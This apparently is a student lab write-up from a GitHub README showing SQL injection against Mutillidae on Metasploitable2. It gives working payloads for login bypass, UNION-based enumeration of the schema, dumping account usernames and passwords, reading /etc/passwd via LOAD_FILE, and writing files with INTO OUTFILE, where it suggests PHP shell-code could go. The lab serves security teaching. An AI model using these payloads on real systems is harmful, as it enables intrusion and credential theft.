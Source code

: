 # sqlinjection
Exploiting SQL Injection vulnerability

# AIM:
To exploit SQL Injection vulnerability using Multidae web application in Metasploitable2

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:
Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
SQL Injection is a sort of infusion assault that makes it conceivable to execute malicious SQL statements. These statements control a database server behind a web application. Assailants can utilize SQL Injection vulnerabilities to sidestep application safety efforts. They can circumvent authentication and authorization of a page or web application and recover the content of the whole SQL database. Identify IP address using ifconfig in Metasploitable2
![image](https://github.com/sakthipriyadhanusu/sqlinjection/assets/119393194/6036b2dc-a186-4eba-8556-dd9db79646ac)
Use the above ip address to access the apache webserver of Metasploitable2 from kali linux. In Kali Linux use the ip address in a web browser.
![image](https://github.com/sakthipriyadhanusu/sqlinjection/assets/119393194/6ef23736-14df-4b75-9ed5-46a900b92c15)
Select Multidae from the menu listed as shown above. You will get the page as displayed below:
![image](https://github.com/sakthipriyadhanusu/sqlinjection/assets/119393194/dae089b1-b90c-4af9-ae0b-57fc5a3c14c5)
Click on the menu Login/Register and register for an account
![image](https://github.com/sakthipriyadhanusu/sqlinjection/assets/119393194/75781447-b173-45c4-bb94-894bc643e0b5)
Click on the link “Please register here” 
![image](https://github.com/sakthipriyadhanusu/sqlinjection/assets/119393194/e3367be8-b0b4-4200-8ee4-b322fd11d294)
Click on “Create Account” to display the following page: 
![image](https://github.com/sakthipriyadhanusu/sqlinjection/assets/119393194/7dd717bc-ecd6-46fc-b809-d23b952bbe9a)
The login structure we will use in our examples is straightforward. It contains two input fields (username and password), which are both vulnerable. The back-end content creates a query to approve the username and secret key given by the client. Here is an outline of the page rationale:

($query = “SELECT * FROM users WHERE username=’$_POST[username]’ AND password=’$_POST[password]’“;). For the username put “ganesh” or “anything” and for the password put (anything’ or ‘1’=’1) or (admin’ or ‘1’=’1) then try to log in, and you’ll be presented with an admin login page.

![image](https://github.com/sakthipriyadhanusu/sqlinjection/assets/119393194/d68b1b58-ad36-478d-b11f-64e1ad8d619d)
Click “Login”. The logged in page will show as below: Screenshot 2023-06-10 223535
Bypassing login field
The username field is vulnerable. Put (ganesh’ #) or (ganesh’--) in the username field and hit “Enter” to log in. We use “#” or “--” to comment everything in the query sentence that comes after the username filed telling the database to disregard the password field: (SELECT * FROM users WHERE username=’admin’ # AND password=’ ‘). By using line commenting, the aggressor eliminates a part of the login condition and gains access. This technique will make the “WHERE” clause true only for one user; in this case, it is “ganesh.”

Now after logging out you will see the login page. In the login page give ganesh’ # . You can see the page now enters into the administrator page as before when giving the password.
![image](https://github.com/sakthipriyadhanusu/sqlinjection/assets/119393194/72465350-7c0c-4ec4-b99f-9c2e20e8dc1b)
Click the login button and you will see it enter into the administrator page.
![image](https://github.com/sakthipriyadhanusu/sqlinjection/assets/119393194/3c8dd4c2-ce81-4105-a98a-ef6b240a0797)
Union-based SQL injection
UNION-based SQL injection assaults enable the analyzer to extract data from the database effectively. Since the “UNION” operator must be utilized if the two inquiries have precisely the same structure, the attacker must craft a “SELECT” statement like the first inquiry. we will be using the “User Info” page from Mutillidae to perform a Union-Based SQL injection attack. Go to “OWASP Top 10/A1 — Injection/SQLi — Extract-Data/User Info”

After logging out, Now choose the menu as shown below:
![image](https://github.com/sakthipriyadhanusu/sqlinjection/assets/119393194/004ec65a-6395-4a14-afbd-97493f324d81)
![image](https://github.com/sakthipriyadhanusu/sqlinjection/assets/119393194/aa4c34fc-a7f3-45f5-ab49-ff45fb7e0722)
![image](https://github.com/sakthipriyadhanusu/sqlinjection/assets/119393194/75347051-b068-48bc-b2bc-4a38ee2401ff)
![image](https://github.com/sakthipriyadhanusu/sqlinjection/assets/119393194/0a8b164c-62cb-46f7-95c0-1900c70e2dc9)
![image](https://github.com/sakthipriyadhanusu/sqlinjection/assets/119393194/16065fa2-d156-4c76-9947-3caf70de1fa9)
From this point, all our attack vectors will be performed in the URL section of the page using the Union-Based technique.There are two different ways to discover how many columns are selected by the original query. The first is to infuse an “ORDER BY” statement indicating a column number. Given the column number specified is higher than the number of columns in the “SELECT” statement, an error will be returned.
![image](https://github.com/sakthipriyadhanusu/sqlinjection/assets/119393194/2eebfcd5-e58c-4f3f-89d6-7b7db129c069)
Since we do not know the number of columns, we start at 1. To find the exact amount of columns, the number is incremented until an error related to the “ORDER BY” clause is returned. In this example, we incremented it to 6 and received an error message, so it means that the number of columns is lower than 6.

The browser url of this info page need to be modified with the url as below:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27order%20by%206%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/sakthipriyadhanusu/sqlinjection/assets/119393194/1a689314-8333-4d5c-8d7e-560dd158a41a)
After adding the order by 6 into the existing url , the following error statement will be obtained:
![image](https://github.com/sakthipriyadhanusu/sqlinjection/assets/119393194/adb907c0-bf27-470a-8c1b-cfb50c4df7a3)
When we ordered by 5, it worked and displayed some information. It means there are five columns that we can work with. Following screenshot shows that the url modified to have statement added with ordered by 5 replacing 6.
![image](https://github.com/sakthipriyadhanusu/sqlinjection/assets/119393194/cd57c9e6-bc1b-4c96-bc3c-2cc72cbf0214)
As it is having 5 columns the query worked fine and it provides the correct result
![image](https://github.com/sakthipriyadhanusu/sqlinjection/assets/119393194/454f581d-9b54-4c4d-88e7-d20d605beb40)
Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union select 1,2,3,4,5)
![image](https://github.com/sakthipriyadhanusu/sqlinjection/assets/119393194/c4a4e86e-9656-4c9a-9b9a-695db15352c1)
As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.
![image](https://github.com/sakthipriyadhanusu/sqlinjection/assets/119393194/82f26d54-e691-4cef-9a6a-1f6dd1ce253a)
Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details

Screenshot 2023-06-10 225314 The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/sakthipriyadhanusu/sqlinjection/assets/119393194/5239ce73-2f78-4b21-a5cc-49bd5ff4ab0f)
The url once executed will retrieve table names from the “owasp 10” database. ##Extracting sensitive data such as passwords

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.
![image](https://github.com/sakthipriyadhanusu/sqlinjection/assets/119393194/758ea820-6af5-4d8e-a63b-3d9f685fce9d)
The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/sakthipriyadhanusu/sqlinjection/assets/119393194/da7beb44-76fc-425e-b3ba-4f28dfd7e729)
Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/sakthipriyadhanusu/sqlinjection/assets/119393194/5eb02e50-fc89-4299-9b4d-bbec81a835eb)
Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/sakthipriyadhanusu/sqlinjection/assets/119393194/ac799de1-1b3a-48c5-b8b5-95375fc73844)
the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).

## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
